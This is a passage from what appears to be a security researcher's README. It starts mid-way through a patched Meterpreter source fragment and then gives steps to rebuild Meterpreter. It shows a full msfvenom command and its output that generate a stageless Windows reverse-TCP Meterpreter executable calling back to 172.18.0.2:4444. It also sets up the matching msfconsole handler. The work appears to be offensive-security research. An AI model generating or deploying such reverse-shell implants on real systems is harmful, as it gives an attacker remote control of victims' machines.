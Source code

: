 ```text
                dwResult = packet_transmit_response(dwResult, pRemote, pResponse);
        }

```

2\. Build Meterpreter

See <http://buffered.io/posts/building-meterpreter-is-easy/> and
<https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter> for
more details.

Copy the built binaries (within `metasploit-payloads/c/meterpreter/output/*/`)
to `metasploit-framework/data/meterpreter/` to make them available to
Metasploit.

3\. Generate a stageless Windows Meterpreter

Be sure to include the stdapi extension. This will result in our patched code
being baked right in to the payload.

```text
% ~/work/metasploitsploit/metasploit-framework/msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.0.2 LPORT=4444 EXTENSIONS=stdapi -f exe -o ~/work/metasploitsploit/windows_x64_meterpreter_reverse_tcp.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
No encoder or badchars specified, outputting raw payload
Payload size: 1612339 bytes
Final size of exe file: 1618944 bytes
Saved as: /home/justin/work/metasploitsploit/windows_x64_meterpreter_reverse_tcp.exe
```

4\. Unbuild Meterpreter

Having generated a stageless Windows Meterpreter inclusive of the stdapi
extension, we no longer need the patched Meterpreter binaries within
Metasploit. Scrub them from `metasploit-framework/data/meterpreter/`

5\. Get a session

Start Metasploit, start a stageless Meterpreter handler:

```text
% ~/work/metasploitsploit/metasploit-framework/msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 172.18.0.2; set LPORT 4444; set ExitOnSes
sion false; exploit -j'
PAYLOAD => windows/x64/meterpreter_reverse_tcp
LHOST => 172.18.0.2
LPORT => 4444
ExitOnSession => false
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.18.0.2:4444
[*] Starting the payload handler...
msf exploit(handler) >
```
